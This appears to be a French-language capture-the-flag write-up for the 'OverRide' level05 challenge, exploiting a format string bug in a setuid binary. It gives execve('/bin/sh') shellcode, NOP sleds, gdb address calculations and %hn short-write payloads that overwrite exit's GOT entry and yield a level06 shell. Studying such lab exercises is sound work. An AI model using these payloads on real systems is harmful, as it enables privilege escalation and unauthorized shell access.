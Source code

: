 iRELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/users/level05/level05

level05@OverRide:~$ file level05 
level05: setuid setgid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0x1a9c02d3aeffff53ee0aa8c7730cbcb1ab34270e, not strippe

Le programme actuel recupere la string de gets et transforme les minuscules en majuscules.
Le premier argument du printf a *main+195 est notre string, ce qui correspond a une faille de type format string

level05@OverRide:~$ (python -c "print 'aaaa' + '%p ' * 30";cat) | ./level05
aaaa0x64 0xf7fcfac0 0xf7ec3af9 0xffffd6df 0xffffd6de (nil) 0xffffffff 0xffffd764 0xf7fdb000 0x61616161 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070

Nous pouvons voir que notre string 'aaaa' apparait au printf access parameter numero 10

export EXPLOIT=$(python -c "print '\x90' * 400 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80'")

(gdb) x/s *((char **)environ+0)
0xffffd74a:      "EXPLOIT=<...>"

adresse exploit: 0xffffd74a
(gdb) p/d 0xffffd74a+200
$1 = 4294957074


(gdb) p/x 0xffffd74a+200
$2 = 0xffffd812
(gdb) x/s 0xffffd812

(gdb) p/d 0xd812
$4 = 55314
(gdb) p/d 0xd812-8
$5 = 55306

gdb-peda$ p/d 0xffff
$5 = 65535
(gdb) p/d 0xffff-55314
$6 = 10221

adresse exit: 0x80497e0

(gdb) info function exit
All functions matching regular expression "exit":

Non-debugging symbols:
0x08048370  exit
0x08048370  exit@plt

Nous pouvons voir sur ce document, que les valeurs des int pris en compte par printf ont une limite :
https://cs155.stanford.edu/papers/formatstring-1.2.pdf

Comme a sa section 4.1 (Short write), nous allons passer notre adresse en deux fois afin d ecraser les deux premier octets, puis les deux derniers

=> 0x08048475 <+49>:    call   0x8048350 <fgets@plt> ; Size == 100
(gdb) x/wx $esp
0xffffd470:     0xffffd498
(gdb) x/s 0xffffd498
0xffffd498:      ""


(python -c 'print("\xe0\x97\x04\x08" + "\xe2\x97\x04\x08" + "%.55306u%10$hn" + "%.10221u%11$hn")'; cat) | ./level05
<...>
whoami
level06


(python -c 'print(len("\xe0\x97\x04\x08" + "\xe2\x97\x04\x08" + "%.55306u%10$hn" + "%.10221u%11$hn"))')
34


p/d 100-8-23-13-13
$8 = 43 NOPs

Je recommence mes calculs avec un environnement vierge.

=> 0x08048475 <+49>:    call   0x8048350 <fgets@plt>
(gdb) x/wx $esp
0xffffd690:     0xffffd6b8
(gdb) x/s 0xffffd6b8
0xffffd6b8:      ""

(gdb) p/x 0xffffd6b8+8+21
$2 = 0xffffd6d5

(gdb) p/d 0xd6d5
$3 = 54997
(gdb) p/d 0xd6d5-8
$4 = 54989

(gdb) p/d 0xffff
$5 = 65535
(gdb) p/d 0xffff-54997
$6 = 10538

(python -c 'print("\xe0\x97\x04\x08" + "\xe2\x97\x04\x08" + "\x90" * (100-8-23-13-13) + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80" + "%.54989u%10$hn" + "%.10538u%11$hn")'; cat) | ./level05
Segmentation fault (core dumped)

Je pense qu il ny a pas assez de NOPs de disponible afin de pouvoir etre sur qu une adresse arrive dans les NOPs.
